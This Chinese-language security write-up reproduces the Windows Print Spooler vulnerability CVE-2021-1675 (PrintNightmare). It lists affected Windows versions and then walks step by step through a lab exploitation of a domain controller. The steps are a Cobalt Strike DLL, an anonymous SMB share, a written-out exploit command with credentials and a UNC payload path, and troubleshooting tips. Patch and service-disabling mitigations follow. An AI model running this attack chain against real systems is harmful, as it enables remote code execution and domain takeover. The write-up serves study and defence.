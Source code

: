 ## Windows Spooler Service RCE(CVE-2021-1675 )

## 漏洞描述

该漏洞可用于实现 LPE 和 RCE。至于 RCE 部分，您需要一个用户在 Spooler 服务上进行身份验证。但是，这在域环境中仍然很重要。由于通常 DC 会启用 Spooler 服务，因此被入侵的域用户可能会利用此漏洞来控制 DC

## 漏洞影响

> Windows Server 2019 (Server Core installation)

> Windows Server 2019

> Windows Server 2016 (Server Core installation)

> Windows Server 2016

> Windows Server 2012 R2 (Server Core installation)

> Windows Server 2012 R2

> Windows Server 2012 (Server Core installation)

> Windows Server 2012

> Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)

> Windows Server 2008 R2 for x64-based Systems Service Pack 1

> Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)

> Windows Server 2008 for x64-based Systems Service Pack 2

> Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)

> Windows Server 2008 for 32-bit Systems Service Pack 2

> Windows Server, version 2004 (Server Core installation)

> Windows RT 8.1

> Windows 8.1 for x64-based systems

> Windows 8.1 for 32-bit systems

> Windows 7 for x64-based Systems Service Pack 1

> Windows 7 for 32-bit Systems Service Pack 1

> Windows 10 Version 1607 for x64-based Systems

> Windows 10 Version 1607 for 32-bit Systems

> Windows 10 for x64-based Systems

> Windows 10 for 32-bit Systems

> Windows Server, version 20H2 (Server Core Installation)

> Windows 10 Version 20H2 for ARM64-based Systems

> Windows 10 Version 20H2 for 32-bit Systems

> Windows 10 Version 20H2 for x64-based Systems

> Windows 10 Version 2004 for x64-based Systems

> Windows 10 Version 2004 for ARM64-based Systems

> Windows 10 Version 2004 for 32-bit Systems

> Windows 10 Version 21H1 for 32-bit Systems

> Windows 10 Version 21H1 for ARM64-based Systems

> Windows 10 Version 21H1 for x64-based Systems

> Windows 10 Version 1909 for ARM64-based Systems

> Windows 10 Version 1909 for x64-based Systems

> Windows 10 Version 1909 for 32-bit Systems

> Windows 10 Version 1809 for ARM64-based Systems

> Windows 10 Version 1809 for x64-based Systems

> Windows 10 Version 1809 for 32-bit Systems

## 漏洞复现

复现漏洞利用的Windows版本是Windows Server 2019 Version 1809，使用了 https://github.com/cube0x0/CVE-2021-1675 项目的python版本exp。

经过反复测试后，发现远程命令执行需要满足一些条件：

1. 创建的smb服务允许匿名访问。
2. 验证使用普通域用户的用户名和密码。
3. 需要在域环境内。

首先在域控上添加一个普通域用户，设置用户名和密码

![image-20210704080310891](resource/Windows-Spooler-Service/image-20210704080310891.png)



因为spoolsv.exe是x64的，所以我们这里Cobalt Strike也生成x64的dll

![image-20210704080316757](resource/Windows-Spooler-Service/image-20210704080316757.png)

按照 https://github.com/cube0x0/CVE-2021-1675 的smb设置方法，在域内一台主机上提供匿名访问权限的共享文件

![image-20210704080320214](resource/Windows-Spooler-Service/image-20210704080320214.png)

在域内的其他主机上放置好生成的artifact.dll，设置分享目录并允许匿名访问，在域控上必须能直接获取到文件

![image-20210704080323986](resource/Windows-Spooler-Service/image-20210704080323986.png)



使用exp，参数分别是刚才创建的新域用户的用户名和密码，还有DC的ip，最后是smb共享文件的路径

```
python CVE-2021-1675.py testUser:123qweASD@192.168.92.150 \\192.168.92.130\share\artifact.dll
```

这里会遇到一些坑，如果报错 **Error: code: 0x5 - rpc_s_access_denied** 说明smb还不能匿名访问，如果连续执行成功，但是只复制了dll并未执行，可能是验证用户不是普通域用户账号。

使用Procmon发现测试用的 artifact.dll 已经被spoolsv.exe加载：

![image-20210704080331145](resource/Windows-Spooler-Service/image-20210704080331145.png)



上线成功

![image-20210704080334640](resource/Windows-Spooler-Service/image-20210704080334640.png)



## 防御方法

安装微软 **CVE-2021-1675** 漏洞补丁

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675

关闭打印机服务

```
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

## 参考文章和项目

- https://github.com/cube0x0/CVE-2021-1675
- https://github.com/afwu/PrintNightmare
- https://blog.csdn.net/ShelleyLiu0415/article/details/47836855
- http://noahblog.360.cn/cve-2021-1675/
- https://github.com/cube0x0/CVE-2021-1675/issues/19